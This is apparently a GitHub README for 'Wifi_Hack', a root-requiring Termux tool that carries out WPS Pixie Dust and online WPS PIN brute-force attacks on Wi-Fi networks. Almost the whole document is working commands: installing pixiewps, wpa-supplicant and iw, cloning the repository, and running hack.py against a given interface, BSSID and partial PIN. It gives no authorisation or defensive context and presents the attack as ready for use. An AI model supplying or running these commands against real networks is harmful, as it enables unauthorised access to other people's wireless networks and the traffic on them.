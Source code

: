 # Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/Saqib8976/Wifi_Hack

$ cd Wifi_Hack

$ chmod +x hack.py

$ sudo python hack.py --help
```

#### Example : `sudo python hack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- 
- `sudo python hack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
